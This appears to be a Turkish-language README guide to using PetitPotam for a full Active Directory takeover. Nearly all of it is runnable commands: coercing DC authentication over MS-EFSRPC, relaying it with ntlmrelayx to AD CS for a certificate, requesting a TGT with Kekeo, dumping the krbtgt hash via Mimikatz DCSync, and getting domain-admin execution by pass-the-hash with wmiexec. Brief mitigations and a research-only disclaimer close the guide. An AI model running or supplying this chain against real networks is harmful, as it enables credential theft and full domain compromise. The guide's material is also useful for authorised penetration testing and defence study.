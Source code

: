 # PetitPotam Kullanım Kılavuzu

## Giriş
PetitPotam, Microsoft'un MS-EFSRPC (Encrypting File System Remote Protocol) zafiyetini kullanarak bir Domain Controller (DC) üzerinde NTLM kimlik doğrulama tetiklemek için kullanılan bir araçtır. Bu araç, NTLM relay saldırılarında kritik bir bileşen olarak kullanılır ve düşük yetkili bir kullanıcıyı Domain Administrator seviyesine yükseltmek için zincirleme saldırılar gerçekleştirilmesine olanak tanır.

Bu kılavuz, PetitPotam'ın NTLM relay saldırılarıyla nasıl kullanılacağını adım adım açıklamaktadır.

---

## Gereksinimler
- **Hedef:** Bir Active Directory ortamı ve Active Directory Certificate Services (AD CS) yüklü bir Domain Controller
- **Saldırgan:** PetitPotam ve ntlmrelayx gibi araçlar için bir Linux veya Windows makinesi
- Python 3 ve gerekli kütüphaneler

---

## Özellikler
- NTLM kimlik doğrulamasını tetikleme
- AD CS üzerinden sertifika almak için kimlik bilgilerini relay etme
- Düşük yetkili bir kullanıcıyı Domain Administrator seviyesine yükseltme

---

## Kullanım

### 1. **ntlmrelayx Kurulumu ve Çalıştırılması**
PetitPotam saldırısı gerçekleştirilmeden önce `ntlmrelayx` kurulmalı ve hedef AD CS sunucusuna relay yapacak şekilde çalıştırılmalıdır.

#### Kurulum
```bash
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
sudo pip3 uninstall impacket
sudo pip3 install -r requirements.txt
sudo python3 setup.py install
```

#### Çalıştırma
```bash
sudo python3 ntlmrelayx.py -debug -smb2support --target http://pki.lab.local/certsrv/certfnsh.asp --adcs --template KerberosAuthentication
```
- **`--target`**: AD CS sunucusunun URL'si (örnek: `pki.lab.local`)
- **`--template`**: AD CS tarafından kullanılan sertifika şablonu (örnek: `KerberosAuthentication`)

### 2. **PetitPotam ile NTLM Kimlik Doğrulaması Tetikleme**
PetitPotam kullanarak Domain Controller üzerinde NTLM kimlik doğrulamasını tetikleyin.

#### Kurulum
```bash
git clone https://github.com/topotam/PetitPotam.git
cd PetitPotam/
sudo pip3 install -r requirements.txt
```

#### Çalıştırma
```bash
python3 Petitpotam.py <listener IP> <target DC IP>
```
- **`<listener IP>`**: ntlmrelayx çalıştırılan saldırgan IP adresi
- **`<target DC IP>`**: hedef Domain Controller IP adresi

### 3. **Sertifika Alımı ve TGT Elde Edilmesi**
PetitPotam saldırısıyla elde edilen sertifikayı kullanarak bir Ticket Granting Ticket (TGT) elde edin.

#### Kekeo ile TGT Elde Etme
```bash
curl -LO https://github.com/gentilkiwi/kekeo/releases/download/2.2.0-20210723/kekeo.zip
unzip kekeo.zip
cd kekeo/
.x64kekeo.exe
base64 /input:on
tgt::ask /pfx:<base64_cert> /user:<dc-101$> /domain:<domain.local> /ptt
```
- **`<base64_cert>`**: AD CS üzerinden alınan Base64 PKCS12 sertifikası
- **`<dc-101$>`**: hedef DC makinesi adı
- **`<domain.local>`**: hedef domain adı

### 4. **LSA Sırlarının Çıkartılması**
Mimikatz kullanarak LSA sırlarını çıkartın.

```bash
curl -LO https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210724/mimikatz_trunk.zip
unzip mimikatz_trunk.zip
cd mimikatz/
.x64mimikatz.exe
lsadump::dcsync /domain:<domain.local> /user:<krbtgt>
```

### 5. **Pass-The-Hash ile Yetki Yükseltme**
NT hash kullanarak Domain Administrator olarak komut çalıştırın.

```bash
wmiexec.py -hashes :<NTLM_HASH> <domain>/<user>@<dc-ip>
```
- **`<NTLM_HASH>`**: Çıkarılan NT hash
- **`<domain>`**: Hedef domain adı
- **`<user>`**: Hedef kullanıcı adı
- **`<dc-ip>`**: Domain Controller IP adresi

---

## Güvenlik Önlemleri
1. **AD CS Servislerini Kaldırma:** Gereksiz AD CS servislerini devre dışı bırakın.
2. **NTLM Kimlik Doğrulamasını Sınırlandırma:** NTLM trafiğini sınırlayın veya devre dışı bırakın.
3. **IIS Ayarları:** NTLM sağlayıcısını Internet Information Services (IIS) üzerinden kaldırın.

---

## Kaynaklar
- [PetitPotam GitHub](https://github.com/topotam/PetitPotam)
- [Impacket GitHub](https://github.com/SecureAuthCorp/impacket)
- [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)
- [Kekeo GitHub](https://github.com/gentilkiwi/kekeo)

---

Bu rehber, MS-EFSRPC ve AD CS açıklarından faydalanarak Domain Administrator seviyesine yükseltme için PetitPotam aracını kullanmayı açıklar. Araç yalnızca güvenlik araştırmaları ve eğitim amaçlı kullanılmalıdır. Kötüye kullanım durumlarında sorumluluk tamamen kullanıcıya aittir.
